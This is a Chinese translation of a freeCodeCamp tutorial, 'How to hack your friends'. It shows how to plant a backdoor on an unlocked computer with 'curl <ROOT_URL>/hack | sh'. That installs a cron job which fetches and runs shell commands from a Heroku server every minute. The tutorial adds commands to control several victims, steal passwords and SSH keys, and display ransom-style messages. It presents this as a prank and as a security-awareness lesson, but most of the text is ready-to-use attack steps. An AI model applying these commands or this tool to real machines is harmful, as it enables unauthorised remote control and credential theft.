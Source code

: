 # 如何黑你的朋友

> 原文：<https://www.freecodecamp.org/news/how-to-hack-your-friends-eef055389344/>

切特·科尔科斯

# 如何黑你的朋友

![GSbIy618QRGn2E303SAfYdZM-zzTUivZEbOL](img/fbeab8cd3925226b2951817c97bfd9da.png)

我的朋友经常让他们的电脑开着不上锁。我告诉他们应该养成锁电脑的习惯，但是他们不听我的。所以我创建了一个简单的项目来黑我的朋友，向他们展示计算机安全的重要性。

我所需要做的就是等待他们离开他们的计算机几秒钟，打开他们的终端，并键入一个简单的，简短的命令。

![m6THEYS8NfQbc3nmrt1d9xWavmQ0t5UqR7L0](img/d11a12a9b0b2d1428840f5ac96deaab5.png)

就是这样！他们的电脑现在被感染了，我可以在这台电脑上远程运行我想要的任何命令。很可爱，对吧？或者令人震惊？

黑客行为是非法的。具体来说:

> “未经授权故意访问计算机或超出授权访问权限”——《计算机欺诈和滥用法案》(18 U.S.C. 1030)

所以请记住，这篇文章的目的是向您展示恶意黑客攻击您是多么容易，这样您就可以避免自己被黑客攻击。

破坏你的生活并不需要什么黑客天才——任何可以物理访问你的计算机的“脚本小子”都可以通过下载一个仅包含 50 行代码的脚本来危害你。

### 获取设置

如果你想直接进入，这个项目的所有代码都在这个库中，但是我将在下面解释它是如何工作的。

首先，您只需要克隆 repo，安装它的依赖项，并符号链接 *hack* 命令行界面(CLI)工具。

```
git clone https://github.com/ccorcos/hack.gitgit remote remove origincd hacknpm installnpm link
```

接下来，您需要设置 Heroku 来托管将在您朋友的机器上运行的脚本。如果你以前从未用过 Heroku，[在这里注册](https://signup.heroku.com/)(是免费的！)并在您的机器上设置他们的 CLI 工具。

```
brew install heroku-toolbeltheroku login
```

现在在 *hack* repo 里面，创建一个名字容易记住的 Heroku 应用程序。我用的是*黑客-切特。*

```
heroku create hacker-chet
```

然后，您需要运行一个命令来做一些设置。它真正做的只是获取 Heroku 网站的根 url，并将其放入您的 *package.json* 中。这样，服务器可以将应用程序 url 注入到 shell 脚本中。

```
npm run init
```

如果您想自己动手测试，可以在本地启动服务器。

```
npm start
```

或者你可以部署到赫罗库。

```
npm run deploy
```

现在你已经准备好入侵了！

### Hack API

这个程序的美妙之处在于，要开始黑某人，你只需要在他们的机器上运行一个命令。

```
curl <ROOT_URL>/hack | sh
```

*ROOT_URL* 是应用程序的特定路径。当你在本地运行服务器时，它将是 *localhost:5000* ，当你部署到 Heroku 时，它将是类似于 *< APP_NAME >的东西。赫罗夸*pp.com。

它所做的是建立一个 cron 作业——一个在特定时间重新运行任务的“时序作业”——每分钟 ping 一次 */env/live* 端点，并将结果传送给 *sh* 。其实挺简单的！Heroku 免费给你 HTTPS，所以它是安全的，对吗？

一旦你黑了你的朋友，你就可以在你的电脑上用命令行工具做其他任何事情。

*hack* 工具有不同被黑环境的概念。当你使用 */hack* 端点攻击某人时，那个人开始进入 *live* 环境。对于每个环境，您可以运行各种不同的命令。我将通过一个小演示来演示一切。

下面的代码将重写 *live* 环境 shell 脚本，以执行下面的命令，该命令将大声说出“我正在观察您”

```
hack live exec "say 'I\'m watching you'"
```

现在还不行，你还得重新部署到你的 Heroku 应用上。

```
hack deploy
```

![lZCEVaEwYojBREkv0FYXOep2WSuzeUFsc7No](img/1b574f07e76865b15beaf2d09c8ed2dd.png)

现在等待下一分钟，观察你朋友的电脑通过跟踪服务器日志来 ping 你的服务器。

```
hack logs
```

![c9QH5cbuC67pKigu-Tb2k18Yxhlibrhj2usu](img/2aee78d161e844e8e02a37b4ac211fca.png)

environments 的全部意义在于，你可以同时攻击多个人。要隔离不同环境的人，只需要换个名字就可以了。

```
hack live rename jon
```

下次 pinged 实时环境时，它将重写 cron 作业，开始 ping*Jon*环境。

![ocaA9PDrheoOnZd3tgUSjMyuNHGsSFMBBdWn](img/5b9fa07593d809c2fb1fee00a3af4e40.png)

你可以通过改变环境参数来做同样的事情。

```
hack jon exec "say 'hello jon'"
```

现在，如果你今天已经玩够了，聚会也结束了，你可以*忘记*乔恩，并向他保证你已经“摆脱”他了。

```
hack jon forget
```

这将从他们的计算机中删除 cron 作业。或者，您可能希望将此环境置于休眠模式，以便以后可以恢复它。

```
hack jon interval 1d
```

现在，不是每分钟 ping 你的服务器(默认)，而是每天午夜 ping 你的服务器。当你想唤醒它的时候，你可以把时间间隔改回每分钟，第二天，你就可以开始了！

```
hack jon interval 1m
```

其他有趣的事情是设置额外的 cron 作业。以下是你如何在每天早上 6 点叫醒你的朋友，提醒他关于计算机安全的事情。

```
hack jon cron "0 6 * * * say 'good morning jon, remember what I told you about locking your computer?'"
```

附:如果你不记得 cron 作业是如何工作的，[这是一个很好的资源](http://www.nncron.ru/help/EN/working/cron-format.htm)。一切都归结于这张小小的图表。

```
* * * * *| | | | || | | | || | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)| | | +------ Month of the Year (range: 1-12)| | +-------- Day of the Month  (range: 1-31)| +---------- Hour              (range: 0-23)+------------ Minute            (range: 0-59)
```

我最喜欢的一个是*桌面*预设，它将从给定的 URL 下载一张图片，并将其设置为背景照片。

```
hack jon preset desktop http://i.imgur.com/5FC2r9R.jpg
```

如果您已经编写了大量 cron 作业，但不知道其中有什么内容，您可以使用 dump 命令。

```
hack jon dump "crontab -l"
```

现在打开您的日志，您将在下一次 ping 中看到输出。这实际上是更加险恶的，因为你可以获得信息。如果您想变得更加邪恶，您可以搜索解密的密码或窃取他们的 ssh 密钥。

```
hack jon preset passwordshack jon preset ssh
```

但是如果你只是想给他一个老式的恐吓，给他发一条勒索信息吧！

```
hack jon preset ransom "Hello Jon, I told you not to leave your computer unlocked."
```

![4XvzBEX8686IJ-ZNhlNjyrVIDIGKEY-SOhtK](img/ae28123453b2f5bab9d1a9f5d03f8c0a.png)

最后，如果您发现自己添加了一堆 cron 作业，并且只想重新开始，reset 可以提供帮助。

```
hack jon reset
```

现在去(负责任地)玩这个东西吧，通过[提交一个带有新命令或预置的拉请求](https://github.com/ccorcos/hack)，让我知道你最喜欢的恶作剧是什么！

黑客快乐！
